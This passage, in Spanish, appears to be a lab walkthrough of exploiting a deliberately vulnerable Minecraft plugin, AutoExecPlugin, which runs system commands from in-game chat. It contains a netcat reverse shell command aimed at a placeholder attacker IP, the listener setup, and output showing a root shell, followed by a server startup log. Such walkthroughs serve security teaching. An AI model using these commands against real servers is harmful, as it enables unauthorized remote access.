 Info:

```
Plugins (2): AutoOpPlugin, AutoExecPlugin
```

Vemos que los esta detectando de forma correcta, ahora si probamos a ejecutar el siguiente comando que hemos configurado para que se pueda ejecutar comandos del sistema de esta forma en `Minecraft`.

```shell
!exec whoami
```

Info:

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-06-17 230640.png" alt=""><figcaption></figcaption></figure>

Vemos que se esta ejecutando de forma correcta, por lo que vamos a probar a generarnos una `reverse shell` de esta forma.

```shell
!exec nc <IP_ATTACKER> <PORT> -e /bin/sh
```

Antes de ejecutarlo tendremos que ponernos a la escucha desde nuestra maquina `host`.

```shell
nc -lvnp <IP>
```

Estando a la escucha si ejecutamos el comando anterior desde `Minecraft` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 47064
whoami
root
```

Vemos que hemos obtenido de forma exitosa una `shell` desde la maquina victima mediante un `plugin` vulnerable desde `Minecraft`.


[22:47:48 INFO]: Max TNT Explosions: 100
[22:47:48 INFO]: Tile Max Tick Time: 50ms Entity max Tick Time: 50ms
[22:47:48 INFO]: Item Merge Radius: 2.5
[22:47:48 INFO]: Item Despawn Rate: 6000
[22:47:48 INFO]: Arrow Despawn Rate: 1200
[22:47:48 INFO]: Allow Zombie Pigmen to spawn from portal blocks: true
[22:47:48 INFO]: View Distance: 10
[22:47:48 INFO]: Experience Merge Radius: 3.0
[22:47:48 INFO]: Zombie Aggressive Towards Villager: true
[22:47:48 INFO]: Nerfing mobs spawned from spawners: false
[22:47:48 INFO]: Preparing start region for level 0 (Seed: 7388324508683529606)
[22:47:49 INFO]: Preparing start region for level 1 (Seed: 7388324508683529606)
[22:47:49 INFO]: Preparing start region for level 2 (Seed: 7388324508683529606)
[22:47:49 INFO]: [AutoOpPlugin] Enabling AutoOpPlugin v1.0
[22:47:49 INFO]: [AutoOpPlugin] AutoOpPlugin activado
[22:47:49 INFO]: [AutoExecPlugin] Enabling AutoExecPlugin v1.0
[22:47:49 INFO]: [AutoExecPlugin] AutoExecPlugin habilitado
[22:47:49 INFO]: Server permissions file permissions.yml is empty, ignoring it
[22:47:49 INFO]: Done (1.687s)! For help, type "help" or "?"
[22:47:49 INFO]: [AutoOpPlugin] Enabling AutoOpPlugin v1.0
[22:47:49 INFO]: [AutoOpPlugin] AutoOpPlugin activado
[22:47:49 INFO]: [AutoExecPlugin] Enabling AutoExecPlugin v1.0
[22:47:49 INFO]: [AutoExecPlugin] AutoExecPlugin habilitado